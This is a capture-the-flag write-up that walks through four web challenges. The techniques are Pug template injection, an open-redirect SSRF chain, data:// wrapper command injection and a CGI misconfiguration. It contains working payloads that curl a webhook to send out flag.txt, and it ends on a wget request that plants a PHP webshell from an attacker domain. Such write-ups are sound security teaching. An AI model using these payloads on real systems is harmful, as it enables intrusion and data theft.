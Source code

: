 
## GREETINGS [Web] warmup 

`Welcome to our ctf! Hope you enjoy it! Have fun`

It seems like a challenge that reflects the username input, it typically is a SSTI:

![alt text](image-1.png)

The first thing is to find the template engine used. In this case it is running expresse so its nodejs the framework. Lets try all the template engines from hacktricks. The one that stands out is pugjs because the input #{7*7} gives 49. https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs

![alt text](image-2.png)

Lets create a webhook and make a curl to it:

GET /result?username=%23{function(){localLoad%3dglobal.process.mainModule.constructor._load%3bsh%3dlocalLoad("child_process").exec('curl+https://webhook.site/e79c872a-7219-4b9e-9302-843c19765e4e/')}()}

![alt text](image-3.png)

And we got a connection meaning we can run commands. Lets read the flag:

GET /result?username=%23{function(){localLoad%3dglobal.process.mainModule.constructor._load%3bsh%3dlocalLoad("child_process").exec('curl+https://webhook.site/e79c872a-7219-4b9e-9302-843c19765e4e/`cat+flag.txt`')}()}

![alt text](image.png)

flag: TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}


## Surfing [Web] easy

`My friend wanted a site on which he could steal other people's photos. Can you break into it ?`

If we try to "copy address" of an image in google we get a link like:

`https://www.google.com/url?sa=i&url=https%3A%2F%2Fpaperandinkprinting.com%2Fproduct%2Ftest-product%2F&psig=AOvVaw0asOJ7ainNezUugD5aA46q&ust=1722685276064000&source=images&cd=vfe&opi=89978449&ved=0CBEQjRxqFwoTCLixmYqo1ocDFQAAAAAdAAAAABAE`

CHanging the url to our webhook we get an error message which seems like a page that protects from redirects:

http://google.com/url?sa=i&url=https://webhook.site/e79c872a-7219-4b9e-9302-843c19765e4e&psig=AOvVaw0asOJ7ainNezUugD5aA46q&ust=1722685276064000&source=images&cd=vfe&opi=89978449&ved=0CBEQjRxqFwoTCLixmYqo1ocDFQAAAAAdAAAAABAE

![alt text](image-4.png)

Another way to redirect is: `http://google.com/amp/s/example.com/`. Here is the link: <https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#abusing-www.google.com-for-open-redirect> 

Using this with a flask server that redirects to port 8000 we get an admin login(To find port 8000 we can just use fuzz to brute force all the ports until we get something):

```py
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def home():
    return redirect('http://localhost:8000/')

if __name__ == '__main__':
    app.run(debug=True)

```

To remove the .png that is appended we can use `#` character.
Payload: `http://google.com/amp/s/<NGROK_URL>/%23`

We are redirected to an admin login which can be bypass with simple default credentials admin:admin.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Login</title>
</head>
<body>
    <form action="admin.php" method="get">
        <label for="username">Username:</label>
        <input type="text" id="username" name="admin" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="admin" required>
        <br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```

Final payload: `http://localhost:8000/admin.php?username=admin&password=admin`

Flag: `TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}`

## SAFE_CONTENT [Web] medium

```text
Our site has been breached. Since then we restricted the ips we can get files from. This should reduce our attack surface since no external input gets into our app. Is it safe ?

For the source code, go to /src.php
```

![alt text](image-5.png)

At src.php we have the source code:

![alt text](image-6.png)

We have a pretty obvious objective, which is command injection. To reach it, we have to bypass a very poor URL check that just checks the host to be localhost and then make our fetched content be double base64-encoded so that the command is executed without any errors.

The isAllowedIP function uses parse_url to check the URL’s host. However, it does not check the protocol, so PHP wrappers such as php://localhost or data://localhost are valid. The first of these will not work, but the data:// wrapper does not check the content type: data://text/plain and data://localhost/plain will do the same. We can abuse this to achieve command injection with the following payload:

```
# payload
a | curl -X POST -d @/flag.txt <WEBHOOK>
```



Now we double base64-encode it (fetchContent decodes it once, and then it is decoded again in the exec call) and we send the following URL to the challenge:

`data://localhost/plain;base64,<DOUBLE_BASE64_PAYLOAD>`

![alt text](image-12.png)

And get the flag in our webhook.

![alt text](image-11.png)

Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb`}


## Funny [Web] medium

`This challenge is HILARIOUS!`

We are presented with a php white box with what it seems like a joke generator:

![alt text](image-10.png)

We only have a:
- httpd.conf
- index.php
- image

Index.php has the following code:

```php
<?php 
      
$jokes = ["Why did the hacker go broke? He used up all his cache.", "Why was the JavaScript reality show cancelled after one episode? People thought it was too scripted.", "Why do programmers prefer dark mode? Light attracts bugs."];

if (isset($_GET['new_joke'])) {
    echo $jokes[array_rand($jokes)];
}

?>
```

And the httpd.conf has a bunch of configs.
One of them is a misconfiguration:

```
ScriptAlias /cgi-bin /usr/bin
Action php-script /cgi-bin/php-cgi
AddHandler php-script .php

<Directory /usr/bin>
    Order allow,deny
    Allow from all
</Directory>
```

This config allows us to execute any binaries in /usr/bin/, such as wget.

Using wget to write a PHP webshell into /var/www/public/:

GET /cgi-bin/wget?http://<attacker_domain>/webshell.php+-O+/var/www/public/webshell.php HTTP/1.1
